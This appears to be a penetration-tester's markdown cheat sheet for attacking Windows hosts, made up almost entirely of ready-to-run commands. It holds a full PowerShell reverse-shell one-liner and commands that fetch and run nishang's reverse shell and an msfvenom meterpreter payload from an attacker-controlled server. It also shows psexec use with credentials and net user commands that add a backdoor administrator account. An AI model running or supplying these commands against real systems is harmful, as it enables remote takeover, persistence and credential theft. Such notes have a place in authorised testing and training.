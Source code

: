 # Reverse shell
- Powershell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```
## Metasploit
- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python3 -m http.server 8000
```

- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

- Reverse/Privilege Escalation with credentials
```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe
```

# post exploitation consolidation
## create admin user
```
net user h3xit p@ssw0rd /add
net localgroup administrators h3xit /add
net localgroup "remote management users" h3xit /add
```

# tools
## evil-winrm
### dump credentials